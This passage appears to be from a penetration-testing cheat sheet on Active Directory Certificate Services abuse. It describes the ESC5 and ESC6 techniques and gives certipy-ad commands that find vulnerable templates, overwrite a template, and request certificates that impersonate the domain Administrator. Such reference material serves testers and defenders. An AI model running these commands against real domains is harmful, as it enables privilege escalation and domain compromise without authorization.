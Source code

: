```console
$ certipy-ad template -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -template '<TEMPLATE>' -configuration <TEMPLATE>.json
```

### ESC5: Vulnerable PKI Object Access Control

#### Description

A number of objects `outside` of `certificate templates` and the `certificate authority` itself can have a `security impact` on the entire `AD CS` system.

These possibilities include (but are not limited to):

- CA server’s AD computer object (i.e., compromise through RBCD)
- The CA server’s RPC/DCOM server
- Any descendant AD object or container in the container `CN=Public Key Services,CN=Services,CN=Configuration,DC=<COMPANY>,DC=<COM>` (e.g., the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, the Enrollment Services container, etc.)

### ESC6: EDITF_ATTRIBUTESUBJECTALTNAME2

#### Description

`ESC6` is when the `CA` specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag. This flag allows the `enrollee` to specify an `arbitrary SAN` on `all certificates` despite a certificate template's configuration.

After the `patch` for the reported vulnerability `CVE-2022–26923`, this technique `no longer works alone`, but must be combined with `ESC10`.

The attack is the same as `ESC1`, except that you can `choose` any `certificate template` that permits `client authentication`. After the `May 2022` security updates, `new certificates` will have a securiy extension that `embeds` the requester's `objectSid` property. For `ESC1`, this property will be `reflected` from the `SAN` specified, but with `ESC6`, this property reflects the requester's `objectSid`, and not from the SAN. Notice that the `objectSid` changes `depending` on the requester.

As such, to abuse `ESC6`, the `environment` must be `vulnerable` to `ESC10 (Weak Certificate Mappings)`, where the `SAN` is preferred `over` the `new security extension`.

#### Usage

```console
$ certipy-ad find -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -dc-ip <RHOST> -vulnerable -stdout
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -template User -upn 'Administrator@<DOMAIN>'
```

```console
$ certipy-ad req -ca '<CA>' -username 'Administrator@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -template User -upn 'Administrator@<DOMAIN>'
```
